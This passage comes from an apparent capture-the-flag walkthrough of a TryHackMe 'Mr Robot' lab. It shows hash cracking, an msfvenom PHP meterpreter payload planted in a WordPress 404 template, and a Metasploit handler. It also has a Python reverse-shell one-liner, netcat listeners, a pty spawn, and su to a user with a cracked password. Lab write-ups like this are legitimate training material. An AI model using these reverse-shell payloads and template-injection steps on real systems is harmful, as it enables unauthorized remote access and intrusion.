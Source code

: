 now go to [crackstation](https://crackstation.net/) and use it crack the hash.
abcdefghijklmnopqrstuvwxyz

seem like the shell which i use is not good, I cant use it to spawn pty shell and so on. let move to ```meterpreter shell```
```console
bibo318@parrot:~/THM/mrRobot$ msfvenom -p php/meterpreter_reverse_tcp LHOST=10.8.14.151 LPORT=1234 -f raw > shell.php
bibo318@parrot:~/THM/mrRobot$ cat shell.php # copy and put it in 404 template
```

```console
msf5 exploit(multi/http/struts2_content_type_ognl) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf5 exploit(multi/handler) > run
```

BUT it keep stucking and didnt works, cth said re-run it and it would works. but it still didnt works for me.


Back to my tcp php shell. my Idea is 
1. get php shell like we did before
2. and then spawn python shell
3. at python shell, spawn pty shell


Let do it
```console
bibo318@parrot:~$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.242.203] 34748
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

another nc listen on 6969 (cth and lucifer weirdness getting in my head)
```console
bibo318@parrot:~$ nc -nvlp 6969
listening on [any] 6969 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.242.203] 49822
/bin/sh: 0: can't access tty; job control turned off
$ su -
su: must be run from a terminal
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/opt/bitnami/apps/wordpress/htdocs$  whoami
whoami
robot
robot@linux:/opt/bitnami/apps/wordpress/htdocs$ cd
cd
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
```
